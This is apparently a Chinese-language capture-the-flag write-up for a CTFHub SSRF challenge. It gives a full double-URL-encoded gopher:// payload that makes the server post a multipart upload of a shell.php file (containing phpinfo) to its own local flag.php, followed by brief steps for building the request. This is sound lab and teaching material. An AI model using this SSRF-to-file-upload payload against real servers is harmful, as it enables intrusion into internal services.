



# 知识点
gopher:// 上传文件

# 思路

payload
```
?url=gopher://127.0.0.1:80/_POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520315%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-b6455b335a73cff5.sandbox.ctfhub.com%253A10800%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryTCBCrUCMzHht8i4V%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520(Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64)%2520AppleWebKit%252F537.36%2520(KHTML%252C%2520like%2520Gecko)%2520Chrome%252F101.0.4951.54%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-b6455b335a73cff5.sandbox.ctfhub.com%253A10800%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AAccept-Language%253A%2520zh-CN%252Czh%253Bq%253D0.9%250D%250ACookie%253A%2520UM_distinctid%253D17fe34cd7671102-02b48d69e6a348-977173c-1bcab9-17fe34cd7682d7%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryTCBCrUCMzHht8i4V%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520phpinfo()%253B%2520%253F%253E%250D%250A------WebKitFormBoundaryTCBCrUCMzHht8i4V%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522submit%2522%250D%250A%250D%250A%25E6%258F%2590%25E4%25BA%25A4%250D%250A------WebKitFormBoundaryTCBCrUCMzHht8i4V--
```
先查看flag.php,发现可以上传文件<br /><br />用file://查看源码，需要在主机本地上传非空文件<br /><br />再用file://查看首页，可以执行curl<br /><br />先为flag.php页面补充上传按钮<br /><br />抓包<br /><br />改host为127.0.0.1:80<br /><br />将包进行一次url编码<br /><br />再用python脚本将%0A修改为%0D%0A<br /><br />再进行等二次url编码<br /><br />使用gopher://上传文件，获得flag<br />
